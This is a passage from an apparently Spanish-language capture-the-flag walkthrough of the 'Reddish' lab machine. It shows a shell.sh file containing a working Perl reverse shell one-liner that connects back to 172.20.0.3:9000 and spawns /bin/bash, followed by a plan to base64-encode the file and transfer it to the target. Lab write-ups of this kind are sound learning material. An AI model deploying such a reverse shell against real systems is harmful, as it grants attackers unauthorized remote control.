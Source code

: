 ![16.png](/assets/images/2022-05-10-Reddish/16.png)

### Nos creamos un archivo con esta Reverse Shell

```abap
┌─[root@parrot]─[/mnt/angussMoody/Machines/Reddish]
└──╼ #cat shell.sh 
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: shell.sh
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/bash
   2   │ 
   3   │ perl -e 'use Socket;$i="172.20.0.3";$p=9000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">
       │ &S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

### Ahora para pasarnos este archivo a la máquina podemos hacer como hicimos anteriormente, codificarlo a base64 y así poderlo decodificar en la maquina y pasarlo a un archivo, lo copiamos
